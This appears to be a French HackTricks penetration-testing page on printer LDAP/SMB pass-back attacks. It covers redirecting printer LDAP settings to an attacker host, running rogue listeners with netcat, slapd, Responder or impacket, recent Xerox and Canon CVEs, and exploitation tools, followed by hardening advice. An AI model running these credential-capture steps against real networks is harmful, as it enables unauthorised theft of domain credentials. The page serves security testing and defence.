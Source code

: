 # Informations dans les imprimantes

{{#include ../../banners/hacktricks-training.md}}

Il existe plusieurs blogs sur Internet qui **mettent en évidence les dangers de laisser les imprimantes configurées avec LDAP avec des** identifiants de connexion par défaut/faibles.  \
C'est parce qu'un attaquant pourrait **tromper l'imprimante pour s'authentifier contre un serveur LDAP malveillant** (typiquement un `nc -vv -l -p 389` ou `slapd -d 2` suffit) et capturer les **identifiants de l'imprimante en clair**.

De plus, plusieurs imprimantes contiendront **des journaux avec des noms d'utilisateur** ou pourraient même être capables de **télécharger tous les noms d'utilisateur** du contrôleur de domaine.

Toutes ces **informations sensibles** et le **manque de sécurité** commun rendent les imprimantes très intéressantes pour les attaquants.

Quelques blogs d'introduction sur le sujet :

- [https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/](https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/)
- [https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856](https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856)

---
## Configuration de l'imprimante

- **Emplacement** : La liste des serveurs LDAP se trouve généralement dans l'interface web (par exemple *Réseau ➜ Paramètre LDAP ➜ Configuration de LDAP*).
- **Comportement** : De nombreux serveurs web intégrés permettent des modifications du serveur LDAP **sans ressaisir les identifiants** (fonctionnalité d'utilisabilité → risque de sécurité).
- **Exploitation** : Redirigez l'adresse du serveur LDAP vers un hôte contrôlé par l'attaquant et utilisez le bouton *Tester la connexion* / *Synchronisation du carnet d'adresses* pour forcer l'imprimante à se lier à vous.

---
## Capture des identifiants

### Méthode 1 – Écouteur Netcat
```bash
sudo nc -k -v -l -p 389     # LDAPS → 636 (or 3269)
```
Les petits anciens MFP peuvent envoyer un *simple-bind* simple en texte clair que netcat peut capturer. Les appareils modernes effectuent généralement d'abord une requête anonyme, puis tentent le bind, donc les résultats varient.

### Méthode 2 – Serveur LDAP rogue complet (recommandé)

Parce que de nombreux appareils effectueront une recherche anonyme *avant* de s'authentifier, mettre en place un véritable démon LDAP donne des résultats beaucoup plus fiables :
```bash
# Debian/Ubuntu example
sudo apt install slapd ldap-utils
sudo dpkg-reconfigure slapd   # set any base-DN – it will not be validated

# run slapd in foreground / debug 2
slapd -d 2 -h "ldap:///"      # only LDAP, no LDAPS
```
Lorsque l'imprimante effectue sa recherche, vous verrez les identifiants en texte clair dans la sortie de débogage.

> 💡  Vous pouvez également utiliser `impacket/examples/ldapd.py` (Python rogue LDAP) ou `Responder -w -r -f` pour récolter des hachages NTLMv2 via LDAP/SMB.

---
## Vulnérabilités Pass-Back Récentes (2024-2025)

Le pass-back n'est *pas* un problème théorique – les fournisseurs continuent de publier des avis en 2024/2025 qui décrivent exactement cette classe d'attaques.

### Xerox VersaLink – CVE-2024-12510 & CVE-2024-12511

Le firmware ≤ 57.69.91 des MFP Xerox VersaLink C70xx a permis à un administrateur authentifié (ou à quiconque lorsque les identifiants par défaut restent) de :

* **CVE-2024-12510 – LDAP pass-back** : changer l'adresse du serveur LDAP et déclencher une recherche, provoquant la fuite des identifiants Windows configurés vers l'hôte contrôlé par l'attaquant.
* **CVE-2024-12511 – SMB/FTP pass-back** : problème identique via des destinations *scan-to-folder*, fuyant des identifiants NetNTLMv2 ou FTP en texte clair.

Un simple écouteur tel que :
```bash
sudo nc -k -v -l -p 389     # capture LDAP bind
```
ou un serveur SMB rogue (`impacket-smbserver`) suffit à récolter les identifiants.

### Canon imageRUNNER / imageCLASS – Avis 20 mai 2025

Canon a confirmé une faiblesse de **pass-back SMTP/LDAP** dans des dizaines de lignes de produits Laser et MFP. Un attaquant ayant un accès admin peut modifier la configuration du serveur et récupérer les identifiants stockés pour LDAP **ou** SMTP (de nombreuses organisations utilisent un compte privilégié pour permettre le scan vers le mail).

Les recommandations du fournisseur indiquent explicitement :

1. Mettre à jour le firmware corrigé dès qu'il est disponible.
2. Utiliser des mots de passe admin forts et uniques.
3. Éviter les comptes AD privilégiés pour l'intégration des imprimantes.

---
## Outils d'énumération / exploitation automatisés

| Outil | Objectif | Exemple |
|------|---------|---------|
| **PRET** (Printer Exploitation Toolkit) | Abus de PostScript/PJL/PCL, accès au système de fichiers, vérification des identifiants par défaut, *découverte SNMP* | `python pret.py 192.168.1.50 pjl` |
| **Praeda** | Récolter la configuration (y compris les annuaires et les identifiants LDAP) via HTTP/HTTPS | `perl praeda.pl -t 192.168.1.50` |
| **Responder / ntlmrelayx** | Capturer et relayer les hachages NetNTLM depuis le pass-back SMB/FTP | `responder -I eth0 -wrf` |
| **impacket-ldapd.py** | Service LDAP rogue léger pour recevoir des liaisons en texte clair | `python ldapd.py -debug` |

---
## Renforcement et détection

1. **Patch / mise à jour du firmware** des MFP rapidement (vérifiez les bulletins PSIRT du fournisseur).
2. **Comptes de service à privilège minimal** – ne jamais utiliser Domain Admin pour LDAP/SMB/SMTP ; restreindre aux portées OU *en lecture seule*.
3. **Restreindre l'accès à la gestion** – placer les interfaces web/IPP/SNMP des imprimantes dans un VLAN de gestion ou derrière un ACL/VPN.
4. **Désactiver les protocoles inutilisés** – FTP, Telnet, raw-9100, anciens chiffrements SSL.
5. **Activer la journalisation des audits** – certains appareils peuvent syslog les échecs LDAP/SMTP ; corréler les liaisons inattendues.
6. **Surveiller les liaisons LDAP en texte clair** provenant de sources inhabituelles (les imprimantes ne devraient normalement parler qu'aux DC).
7. **SNMPv3 ou désactiver SNMP** – la communauté `public` fuit souvent la configuration des appareils et LDAP.

---
## Références

- [https://grimhacker.com/2018/03/09/just-a-printer/](https://grimhacker.com/2018/03/09/just-a-printer/)
- Rapid7. “Vulnérabilités d'attaque pass-back de Xerox VersaLink C7025 MFP.” Février 2025.
- Canon PSIRT. “Atténuation des vulnérabilités contre le pass-back SMTP/LDAP pour les imprimantes laser et les multifonctions de petit bureau.” Mai 2025.

{{#include ../../banners/hacktricks-training.md}}
